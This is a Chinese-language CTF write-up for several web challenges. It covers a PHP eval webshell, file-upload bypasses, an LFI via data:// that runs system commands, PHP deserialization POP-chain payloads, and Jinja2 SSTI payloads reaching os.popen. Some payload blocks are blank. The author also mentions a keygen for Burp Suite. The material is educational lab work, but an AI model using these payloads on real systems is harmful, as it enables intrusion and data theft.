这是一个极其危险的 WebShell 后门脚本。`@eval($_POST['cmd']);` 获取 `cmd` 参数中的值，并将其当作 PHP 代码直接执行。我们直接在 中国蚁剑 中输入对应的 IP、端口和参数名，即可进入对应服务器环境。

这里，寻找 `flag` 需要花费大量功夫。我们可能 ~~一定~~ 会使用类似 `ls -la` 或 `find` 等指令全局查找 `flag` 文件，但事实上 `flag` **又一次** 位于环境变量中，令人忍俊不禁。



## 13 第十三章 通幽关·灵纹诡影 ✅

> [!NOTE]
> 该题目的 `flag` 是随机的。

首先我们必须熟知，题目要求中的

> 灵纹必须包含噬心魔印（十六进制校验码：FFD8FF）

中，`FF D8 FF` 恰为 `.jpg` 文件的文件头！星澜音因为不知道这个事，兜兜转转绕了半天，甚至想出诸如「内涵图」之类的方法，令人忍俊不禁。😭

之后我们尝试上传任意一张图片，根据题目提示，访问 `/uploads/filename.png` 确实可以找到对应的文件。故考虑构造以下 PHP payload：

```php
<?php
header('Content-Type: text/plain; charset=utf-8');
system('printenv');
?>
```

直接使用 `printenv` 而放弃寻找 `flag` 文件的意图，是经过对出题人的分析得到的。在将该文件保存为 `lingwen.php` 后，我们使用 [HexEd.it](https://hexed.it) 在文件前插入 3 个空白字节，并修改为 `FF D8 FF` 即可通过服务器侧校验。随后，我们访问 `/uploads/lingwen.php` 即可得到 `flag`。


## 14 第十四章 御神关·补天玉碑 ✅

> [!NOTE]
> 该题目的 `flag` 是随机的。

本题有两种思路。

### 思路 1：星澜音的方法

在 CTF Wiki 中提到过 PHP 中 [绕过文件上传检查的方法](https://ctf-wiki.org/web/php/php/#_5)，即 Apache 在解析文件时，会对文件名从右到左逐一剥离后缀，去尝试匹配「已知的 MIME 类型 / Handler / Module」。但由于 Apache 对 `.rar` 没有匹配出合适的处理方式，便会继续尝试向左剥离后缀，直到剥离出 `.php` 后，将其作为一个 PHP 代码文件处理。

故，使用第 13 题的 `lingwen.php`，改名为 `lingwen.php.rar` 上传并访问即可。


### 思路 2：出题人的引导

题目中给出：

```php
<IfModule mod_rewrite.c>  
  RewriteEngine On  
  Rew... # 残缺  
  ...魔气侵蚀... # 魔化文字  
</IfMod... # 残缺 
```

这显然是 `.htaccess` 的内容。一个 `.htaccess` 文件可以改变对某种扩展名的解释方法，在这里，我们可以在 `.htaccess` 中设置 Apache 将所有 `.txt` 以 PHP 代码的方式解析，随后将 `lingwen.php` 改名为 `lingwen.txt` 上传并访问即可。

## 15 第十五章 归真关·竞时净魔 ✅

> [!NOTE]
> 星澜音又忘了 `flag` 了。

是一个诡异的条件竞争。使用 Intruder 连发 `exploit.php`，用 Python 脚本尝试在清除前解析即可。本题过于吃运气，星澜音开了 30 分钟才成功一次。这里感谢 Patricia Of End 先生倾情提供的 Burp Suite Professional 安装服务😭（不知道为啥星澜音死活不会用注册机）

## 16 第十六章 昆仑星途 ✅

> [!NOTE]
> 我们总说人一定要学会坚持，但方向也是不容忽略的、至关重要的因素……
>
> 该题目的 `flag` 是随机的。

注意到 PHP 脚本：

```php
<?php
error_reporting(0);
highlight_file(__FILE__);

include($_GET['file'] . ".php");
```

这下舒服了，`include` 函数，这不是把 `flag` 直接送上门了嘛！再仔细一看，`.php`？原来是它会给用户请求的 `file` 地址后面强制加上一个 `.php` 后缀名。无语了……

尝试访问 `http://127.0.0.1:9194/?file=index`，美不胜收啊！`index.php` 的内容如洪水一般一直向下扩展……证明 LFI（本地文件包含漏洞）是可能存在的。再看随题目给出的附件 `source.zip` 中的 `php.ini`：

```ini
[PHP]
allow_url_fopen = On
allow_url_include = On
```

好啊，这下确认了不仅 LFI 是可行的，甚至 RFI（远程文件包含漏洞）也有可能是可行的！这下舒服了，再看一下 `entrypoint.sh`：

```bash
#!/bin/bash
echo $FLAG > /flag-$(cat /dev/urandom | tr -dc 'a-zA-Z0-9' | head -c 30).txt
unset FLAG
apache2-foreground
```

这也太恶劣了吧，`flag` 的文件名还是随机的……看来我们要先用 `ls` 找见 `flag` 再说。不过星澜音在这里兜兜转转半天：刚开始想要尝试 LFI，但是苦于不知道 `flag` 文件的文件名，只好作罢；那就只能尝试 RFI 了，构造 PHP 脚本如下：

```php
<?php
  system('ls /');
?>
```

挂到一位朋友的服务器上，访问！



诶？！或许是语法的问题？随后星澜音尝试了：

```plain
http://127.0.0.1:9194/?file=http://localhost/index
http://127.0.0.1:9194/?file=http://localhost/index.php?
```

发现都可以将 `index.php` 的内容打印出两份来。星澜音当时想，RFI 的失败是不是因为 HTTPS 的问题🤔后来又由朋友提供了好几个 HTTP Only 的方案，结果……全部失败，`index.php` 就那么耀武扬威地彰显出来，气愤😡

尝试了套一层 Base64 加密的伪协议，不过还是不太行；甚至还想到了日志攻击之类更加复杂和逆天的方法，不过都没有成功。那很诡异了——最后一位大神突然给星澜音托梦

```plain
http://127.0.0.1:9194/?file=data:text/plain,<?php%20phpinfo();?>
```


<div align="center">

**？？？？？？？？？？？？？？？？？？？？？？？？？？？？**

</div>

没事了。`data://` 协议是 PHP 的一个 I/O 流包装器，它的用途是将一个经过编码的字符串当一个文件来处理！PHP 将整个 `data:text/plain,...` 视为一个完整的文件路径处理，后面的 `.php` 自然不会与之拼接——事实上，如果你划到这个页面的最下面，一个 `.php` 就孤零零躺在那里。

考虑了那么久的方向结果是错误的，哎……

不过题目做出来就好。构造

```plain
http://127.0.0.1:9194/?file=data:text/plain,<?php system('ls /'); ?>
```

得到

```php
<?php
error_reporting(0);
highlight_file(__FILE__);

include($_GET['file'] . ".php"); bin boot dev entrypoint.sh etc flag-VJhlPvt82dhb5oON7SnJNoILgcl9EG.txt home lib lib64 media mnt opt proc root run sbin srv sys tmp usr var .php
```

`flag` 位于 `flag-VJhlPvt82dhb5oON7SnJNoILgcl9EG.txt` 中。再构造

```plain
http://127.0.0.1:9194/?file=data:text/plain,<?php system('cat /flag-VJhlPvt82dhb5oON7SnJNoILgcl9EG.txt'); ?>
```

结束。

> [!NOTE]
> 哎……星澜音写到这里的时候，刚好是 8 月 28 日，军训开训没几天的日子。星澜音来到西电之后，可能是因为水土不服，胃肠功能紊乱，整个人直接寄完了，天天腹泻犯恶心；今天早上突然上吐下泻，没有办法，只好中午打包电脑和行李回家休养几天。下午被这个题坑了快三四个小时，才发现自己的方向一直是错的，幸好调整了方向，不然在 RFI 这个怪圈里就绕不出来了。星澜音的人生，方向又在哪里呢？或许还要等星澜音再探索探索吧。
>
> 虽说人生暂时没有方向，但好在星澜音还有一位[「心之所向」](https://github.com/DryIce-cc)。❤️好开心w 明天就是七夕节了，星澜音一定要和自己的心之所向永远在一起 (●'◡'●)

## 17 第十七章 星骸迷阵·神念重构 ✅

> [!NOTE]
> 该题目的 `flag` 是随机的。

不太困难的 PHP 反序列题目。由题目给出的 PHP 脚本：

```php
<?php
highlight_file(__FILE__);

class A {
    public $a;
    function __destruct() {
        eval($this->a);
    }
}

if(isset($_GET['a'])) {
    unserialize($_GET['a']);
```

这里，`unserialize()` 函数接收一段字符串，并尝试将它还原为一个 PHP 对象或变量。`A` 类中有一个名为 `__destruct()` 的魔术方法，它会在对象被销毁时自动被调用。`eval($this->a)` 会将其中的字符串当作 PHP 代码执行。

我们构造 Payload，控制 `A` 类中 `$a` 属性的值。在本地配置的如 XAMPP 等环境中，我们构建如下脚本以生成 Payload：

```php
<?php
class A {
    public $a;
}

$exploit = new A();
$exploit->a = "system('cat /flag');"; 
$payload = serialize($exploit);

echo urlencode($payload);
?>
```

直接猜出 `flag` 位于 `/` 下是很困难的，事实上我们可以通过 `ls` 多次尝试。~~这次终于没放到环境变量里了~~ 随后访问该 PHP 页面，可以得到一串序列化后的 Payload：

```plain
O%3A1%3A%22A%22%3A1%3A%7Bs%3A1%3A%22a%22%3Bs%3A20%3A%22system%28%27cat+%2Fflag%27%29%3B%22%3B%7D
```

附加到 `127.0.0.1:14436/?a=` 后访问即可得到 `flag`。


## 18 第十八章 万卷诡阁·功法连环 ✅

> [!NOTE]
> 该题目的 `flag` 是随机的。

继续观察脚本：

```php
<?php
highlight_file(__FILE__);

class PersonA {
    private $name;
    function __wakeup() {
        $name=$this->name;
        $name->work();
    }
}

class PersonB {
    public $name;
    function work(){
        $name=$this->name;
        eval($name);
    }

}

if(isset($_GET['person'])) {
    unserialize($_GET['person']);
}
```

类 `PersonA` 中有一个私有属性 `name`，其 `__wakeup()` 魔术方法会获取 `name` 并赋值给变量 `$name`，随后将 `$name` 作为一个对象，调用其 `work()` 方法。类 `PersonB` 中有一个公开属性 `name`，其 `work()` 魔术方法会获取 `name`，赋值后运行它。与 17 题类似的，我们仍然需要将序列化后的 PHP 脚本作为 payload。

根据上面的关系，我们明确这样的攻击链：

1. 使用 `system` 指令作为一个 `PersonB` 对象的 `name`：这样，我们只需要调用该 `PersonB` 对象的 `work()` 方法，即可触发 `system` 指令；
2. 使用上述整个 `PersonB` 对象作为一个 `PersonA` 对象的 `name`：这样，`PersonA` 对象的 `name` 会被作为一个对象，使其 `work()` 方法得以调用。
3. 将上述 `PersonA` 对象序列化后作为 `person` 参数的值传入。

故构造 PHP 脚本如下所示：

```php
<?php
class PersonA {
    public $name;
}
class PersonB {
    public $name;
}

$inner_object = new PersonB();
$inner_object->name = "system('cat /flag');";

$outer_object = new PersonA();
$outer_object->name = $inner_object;

$payload = serialize($outer_object);

echo urlencode($payload);
?>
```

> [!TIP]
>
> 这里有一个需要注意的点：我们需要将 `PersonA` 的属性 `name` 改为 `public`，否则 `outer_object` 的 `name` 无法被赋值。当然，这与源代码是相违背的，但 PHP 的反序列化工具会自动处理这一点。

得到序列化后的 `payload`：

```plain
O%3A7%3A%22PersonA%22%3A1%3A%7Bs%3A4%3A%22name%22%3BO%3A7%3A%22PersonB%22%3A1%3A%7Bs%3A4%3A%22name%22%3Bs%3A20%3A%22system%28%27cat+%2Fflag%27%29%3B%22%3B%7D%7D
```

访问以得到 `flag`。这与 17 题的逻辑大体吻合，这里就不放截图了。

## 19 第十九章 星穹真相·补天归源 ✅

> [!NOTE]
> 该题目的 `flag` 是随机的。

继续观察脚本，我们……啊？这玩意咋这么长？！

```php
<?php
highlight_file(__FILE__);

class Person
{
    public $name;
    public $id;
    public $age;

    public function __invoke($id)
    {
        $name = $this->id;
        $name->name = $id;
        $name->age = $this->name;
    }
}

class PersonA extends Person
{
    public function __destruct()
    {
        $name = $this->name;
        $id = $this->id;
        $age = $this->age;
        $name->$id($age);
    }
}

class PersonB extends Person
{
    public function __set($key, $value)
    {
        $this->name = $value;
    }
}

class PersonC extends Person
{
    public function __Check($age)
    {
        if(str_contains($this->age . $this->name,"flag"))
        {
            die("Hacker!");
        }
        $name = $this->name;
        $name($age);
    }

    public function __wakeup()
    {
        $age = $this->age;
        $name = $this->id;
        $name->age = $age;
        $name($this);
    }
}

if(isset($_GET['person']))
{
    $person = unserialize($_GET['person']);
}
```

看得人头晕……不妨先选几个重要的地方细细看看。

注意到 `die("Hacker!");` 这一行，它的 `if` 逻辑校验了该 `PersonC` 对象的 `age` 和 `name` 的拼接后字符串中是否含有 `flag` 字符。我们断言 `flag` 一定位于此，我们要做的就是想办法通过对 `flag` 字符串的检验。倘若该校验确通过了，那么 `name` 会被作为变量 `$name`，并 **直接当作函数名** 地以参数 `age` 执行。

根据逻辑关系，我们断言，突破口一定位于 `__Check` 函数中，考虑到其中有一条命令 `$name($age);`。我们在 18 题中考究过这一点，这很自然让我们联想到 `system('cat /flag')` 之类的指令，那么，我们的目标就是将该 `PersonC` 实例的 `name` 设置为 `system`，而将传入 `__Check` 函数的 `$age` 设置为 `'cat /flag'`。

那么问题来了，如何唤起 `__Check` 函数呢？目光转向 `PersonA` 类，它的 `__destruct()` 魔术方法会在 `PersonA` 对象即将被显式销毁时执行。考究到 `$name->$id($age);` 面色惊人，我们定然会想到，将 `$name` 赋值为那个 `PersonC` 对象，以执行其 `__Check` 函数，条件是将 `'cat /flag'` 作为 `$age`。

于是我们明晰了我们的攻击链：

1. 构造 `PersonC` 对象，将其 `name` 设置为 `system`，其余值缺省；
2. 构造 `PersonA` 对象，将其 `name` 设置为上述 `PersonC` 对象，`age` 设置为 `'cat /flag'`。
3. 将上述 `PersonA` 对象序列化后作为 `person` 的值传入。

故构造 PHP 脚本如下所示：

```php
<?php
class Person
{
    public $name;
    public $id;
    public $age;
}

class PersonA extends Person {}
class PersonB extends Person {} 
class PersonC extends Person {}

$inner_object = new PersonC();
$inner_object->name = "system";

$outer_object = new PersonA();
$outer_object->name = $inner_object;
$outer_object->id = "__Check";
$outer_object->age = "cat /flag";

$payload = serialize($outer_object);

echo urlencode($payload);
?>
```

序列化和访问步骤均略去。虽说页面后面有一个

```plain
Fatal error: Uncaught Error: Attempt to assign property "age" on null in /app/index.php:53 Stack trace: #0 [internal function]: PersonC->__wakeup() #1 /app/index.php(60): unserialize('O:7:"PersonA":3...') #2 {main} thrown in /app/index.php on line 53
```

但是 0 个人在意了，我们已经拿到 `flag` 了！耶耶耶——

## 19 第十九章_revenge ✅

> 空间裂缝闭合的刹那，三人坠入一片混沌星穹。这里没有天地之分，只有无数破碎的镜面悬浮流转，每一面镜子都映照出不同的时空片段——有玄天剑宗的庆功宴，有葬星古墟的惨战，甚至还有 HDdss 幼时在赵家偏院练剑的青涩模样。
>
> 「昆仑墟终极试炼——万象镜域。」黑猫的声音从四面八方传来，它的身影在万千镜面中同时浮现，「这里的每一面镜子，都记录着你们生命中的真实与谎言。」
>
> 最大的镜面突然亮起，浮现出四重相生相克的功法烙印——
<!---->
> [!NOTE]
> 该题目的 `flag` 是随机的。

重新观察 PHP 文件：

```php
<?php
highlight_file(__FILE__);

class Person
{
    public $name;
    public $id;
    public $age;
}

class PersonA extends Person
{
    public function __destruct()
    {
        $name = $this->name;
        $id = $this->id;
        $name->$id($this->age);
    }
}

class PersonB extends Person
{
    public function __set($key, $value)
    {
        $this->name = $value;
    }

    public function __invoke($id)
    {
        $name = $this->id;
        $name->name = $id;
        $name->age = $this->name;
    }
}

class PersonC extends Person
{
    public function check($age)
    {
        $name=$this->name;
        if($age == null)
        {
            die("Age can't be empty.");
        }
        else if($name === "system")
        {
            die("Hacker!");
        }
        else
        {
            var_dump($name($age));
        }
    }

    public function __wakeup()
    {
        $name = $this->id;
        $name->age = $this->age;
        $name($this);
    }
}

if(isset($_GET['person']))
{
    $person = unserialize($_GET['person']);
}
```

继续注意到 `PersonC` 类中的 `check()` 方法，其 `$name($age)` 颇有 19 章中我们谈论到的 18 章题目的遗风，故这必然是我们的终点。我们可以把 `$name` 设置成 `"system"`……哎等等？！

```php
else if($name === "system")
{
    die("Hacker!");
}
```

**龙颜大不悦.png**<!--markdownlint-disable-line MD036-->

总之 `system` 是用不了了，那咋办😭别急，PHP 中能执行系统命令的函数一大堆，没了 `system()`，我们还有 `passthru()`、`shell_exec()`、`exec()` 之类的，这里我们就用 `passthru()` 了。那么起点呢？看来能主动被调用的只剩下 `PersonA` 类中的 `__destruct()` 方法了，那么思路就很清晰了——

我们构造一个 `PersonC` 对象，其 `$name` 为 `"passthru"`。我们再构造一个 `PersonA` 对象，其 `$name` 为 `PersonC` 对象，其 `$id` 为 `"check"`，其 `$age` 则为 `check()` 的函数，这里就是 `printenv` 了😋别问为啥 `printenv`，问就是经验（

构造 Payload 如下：

```php
<?php
class Person
{
    public $name;
    public $id;
    public $age;
}

class PersonA extends Person {}
class PersonB extends Person {}
class PersonC extends Person {}

$inner_object = new PersonC();
$inner_object->name = "passthru";

$outer_object = new PersonA();
$outer_object->age = "printenv";
$outer_object->id = "check";
$outer_object->name = $inner_object;

$payload = serialize($outer_object);

echo urlencode($payload);
?>
```

得到序列化后的 `payload`：

```plain
O%3A7%3A%22PersonA%22%3A3%3A%7Bs%3A4%3A%22name%22%3BO%3A7%3A%22PersonC%22%3A3%3A%7Bs%3A4%3A%22name%22%3Bs%3A8%3A%22passthru%22%3Bs%3A2%3A%22id%22%3BN%3Bs%3A3%3A%22age%22%3BN%3B%7Ds%3A2%3A%22id%22%3Bs%3A5%3A%22check%22%3Bs%3A3%3A%22age%22%3Bs%3A8%3A%22printenv%22%3B%7D
```

访问后可以得到



成功拿下😎

## 20 第二十章 幽冥血海·幻语心魔 ✅

> [!NOTE]
> 该题目的 `flag` 是随机的。

我们尝试在页面的两个输入框中输入一些文本，可以看到 `Welcome:` 后追加的是「神识名讳」的内容。这不自觉让我们想到 Jinja2 的 SSTI 漏洞。



我们使用 `{{ 7*7 }}` 来测试是否具有 Jinja2 的 SSTI 可能性，结果是——确实存在！



那就好说了😋我们直接给出 Payload：

```python
{{ config.update(pwn=self.__init__.__globals__.__builtins__.__import__('os').popen('printenv').read()) }} {{ config.pwn }}
```

其中：`{{ ... }}` 是 Jinja2 模板的语法，用于执行表达式并输出结果。`config` 是 Flask 应用中的一个全局对象，通常用于存储配置变量；`update()` 方法用来更新字典，这里我们添加了一个名为 `pwn` 的配置项，它的值是后面表达式的执行结果。

`self.__init__` 获取了当前对象的类的初始化方法，随后与 Misc 赛道的 Pyjail 题目思路类似，拿到了 `popen()` 和 `read()` 函数后，就类似于 `getshell` 了！最后，我们使用 `config.pwn` 输出 `pwn` 的值，也就是 `printenv` 命令的输出。

运行一下看看：


好耶！

## 21 第二十一章 往生漩涡·言灵死局 ✅

> [!NOTE]
> 该题目的 `flag` 是随机的。

赏析一下美丽的 `app.py`……啊？

```python
from flask import Flask, request, render_template, render_template_string
app = Flask(__name__)

blacklist = ["__", "global", "{{", "}}"]

@app.route('/')
def index():
    if 'username' in request.args or 'password' in request.args:
        username = request.args.get('username', '')
        password = request.args.get('password', '')

        if not username or not password:
            login_msg = """
            <div class="login-result" id="result">
                <div class="result-title">阵法反馈</div>
                <div id="result-content"><div class='login-fail'>用户名或密码不能为空</div></div>
            </div>
            """
        else:
            login_msg = render_template_string(f"""
            <div class="login-result" id="result">
                <div class="result-title">阵法反馈</div>
                <div id="result-content"><div class='login-success'>欢迎：{username}</div></div>
            </div>
            """)

            for blk in blacklist:
                if blk in username:
                    login_msg = """
                    <div class="login-result" id="result">
                        <div class="result-title">阵法反馈</div>
                        <div id="result-content"><div class='login-fail'>Error</div></div>
                    </div>
                    """
    else:
        login_msg = ""

    return render_template("index.html", login_msg=login_msg)

if __name__ == '__main__':
    app.run(host='0.0.0.0', port=80)
```

这下坏了……虽说 Jinja2 的 SSTI 似乎还能有所突破，但是……这 `blacklist = ["__", "global", "{{", "}}"]` 未免有点太宽泛了吧😭

我们一步步来分析这个问题。首先，`{{` 和 `}}` 都被屏蔽了；但是！Jinja2 仍然支持其他语法，例如 `` 可用于控制流，而 `{# #}` 可用于注释！如果尝试

```python
username=&password=stellaice
```

可以看到

```plain
欢迎：<bound method Request.application of <class 'flask.wrappers.Request'>>
```

这说明我们的路没有被封死！这就好说了，如果 `` 内也能放我们想执行的命令，那其实差别不大。我们直接试一波 `import os`——

```plain
username=&password=dryice_loves_lycecilion
```


……啊？

事实上经过星澜音后续测试，似乎只要涉及到 `import os`，就会导致 `Internal Server Error` 问题，气死我力😡😡看来我们只能另寻他路了。从 Pyjail 的经验中我们知道，如果直接 `import os` 不行的话，我们就只能使用古法 `__subclasses__` 了：

```python
&password=why_this_is_inaccessible
```

该 Jinja2 语句将 `__` 拆成了两个 `_`，并拼接为变量 `u`，绕过了一个字符串检测。用拼出的 `u` 便可以拼出 `__class__`、`__mro__`、`__subclasses__` 和 `__getitem__` 来。在 Jinja2 中，`|` 是过滤器语法，`attr` 过滤器用来获取某个对象的属性，也就是说，`''|attr(c)` 就等价于 `''.__class__`；那么，上面这一段 Payload 就等价于：

```python
len(''.__class__.__mro__[1].__subclasses__())
```

即用于获取当前 Python 环境中所有内置的和已经加载的模块的类的数量。我们得到了

```plain
欢迎：501
```

说明该环境中有 501 个类！那足够多了——我们总能找到自己想要的！

接下来该怎么办呢？在这里，星澜音就不卖关子了，直接给出最终 Payload：

```python

```

除去绕过 `__` 的片段，我们直接向下分析：

```python

```

这是一个循环，它获取空字符串 `''` 的类 `str`，然后获取 `str` 的 MRO（方法解析顺序，通俗地说，「继承链」）的第 2 个元素（以索引 `1`），即 `object` 类，随后获得 `object.__subclasses__()`。随后，对于每一个子类 `cls`——

```python

```

我们获取 `cls.__init__.__globals__`，即全局变量字典。熟悉 Pyjail 的读者应当知道我们要干什么了——

```python

```

没错。这一段是显然的，我们就不解析了。

## 22 第二十二章 血海核心·千年手段 ✅

> [!NOTE]
> 绝世神题，一天时间内逼疯零音和 Gemini 的题目，好在给出了一个虽然不太漂亮的解答。
>
> 该题目的 `flag` 是随机的。

```python
from flask import Flask, request, render_template, render_template_string

app = Flask(__name__)

@app.route('/')
def index():
    if 'username' in request.args or 'password' in request.args:
        username = request.args.get('username', '')
        password = request.args.get('password', '')

        if not username or not password:
            login_msg = """
            <div class="login-result" id="result">
                <div class="result-title">阵法反馈</div>
                <div id="result-content"><div class='login-fail'>用户名或密码不能为空</div></div>
            </div>
            """
        else:
            login_msg = f"""
            <div class="login-result" id="result">
                <div class="result-title">阵法反馈</div>
                <div id="result-content"><div class='login-success'>Welcome: {username}</div></div>
            </div>
            """
            render_template_string(login_msg)
    else:
        login_msg = ""

    return render_template("index.html", login_msg=login_msg)

if __name__ == '__main__':
    app.run(host='0.0.0.0', port=80)
```

没有 `blacklist`，不需要冗长的语法来绕过 `__`，这固然很好。但，最恐怖的是——

<div align="center">

**「符咒没入光幕，如石沉大海，没有任何回应。」**<!--markdownlint-disable-line MD036-->

</div>

